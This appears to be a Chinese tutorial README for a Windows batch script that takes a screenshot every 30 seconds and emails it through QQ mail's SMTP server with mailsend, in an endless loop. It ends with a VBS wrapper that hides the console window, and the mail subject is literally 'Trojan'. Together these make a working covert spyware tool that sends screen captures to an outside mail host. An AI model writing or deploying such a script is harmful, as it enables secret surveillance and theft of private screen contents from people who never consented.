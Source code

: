 # 脚本提示

先关闭批处理的回显：

```batch
@echo off
```

然后设置 `PATH` 环境变量为当前目录下的 `bin` 子目录，此处应该使用 `PATH` 命令。用法为:

```batch
PATH path
```

同时要注意使用 `%CD%` 来获取当前目录。

然后进入循环，这里使用 `goto` 来实现永远循环。

```batch
:loop

REM do something

goto loop
```

使用 `bin` 目录下的 `nircmd` 来实现截屏：

```batch
nircmd savescreenshot 1.png
```

使用 `bin` 目录下的 `mailsend` 来实现邮件发送，以 QQ 邮箱为例：

```batch
mailsend -to <dest_mail_address> -from <src_mail_address> -ssl -port 465 -auth-login -smtp smtp.qq.com -sub "Trojan" -user <username> -pass "<password>" -attach <image_path>
```

请将上面的命令中 `<>` 包裹起来的内容替换为你自己的内容然后去掉尖括号，其中 `dest_mail_address` 应该替换为收件邮箱地址，`src_mail_address` 替换为发件邮箱地址，`username` 替换为 QQ 邮箱用户名， `password` 替换为 QQ 邮箱的一次性客户端密码，`image_path` 替换成图片文件名，比如 `1.png` 。

使用 `bin` 目录下的 `nircmd` 来实现等待一段时间：

```batch
nircmd wait 30000
```

### 开始我的自动化脚本

1. 创建一个记事本文件，命名为"scripts.bat"然后打开vscode把文件拖进去开始编辑文件
2. 写入如下代码：
```batch
@echo off

PATH %CD%\bin

:loop

nircmd savescreenshot screen.png

mailsend -to 邮箱地址 -from 邮箱地址 -ssl -port 465 -auth-login -smtp smtp.qq.com -sub "所发的邮件名字" -user 193319076 -pass "密码" -attach screen.png

nircmd wait 30000

del screen.png

goto loop
```
3. 点击运行，就可以收到邮件了
   ![预览](img\邮箱.png)
   点开就是截图
   ![截图](img\所截屏幕.png)
---
---
4. 然后隐藏黑框的方法：
   scripts.bat同目录下新建一个记事本并写入如下代码
```batch
Dim Wsh
Set Wsh = WScript.CreateObject("WScript.Shell")
WScript.Sleep(0000)
Wsh.Run "scripts.bat",0,True
```
然后把文件后缀给成vbs
就可以实现隐藏黑框了
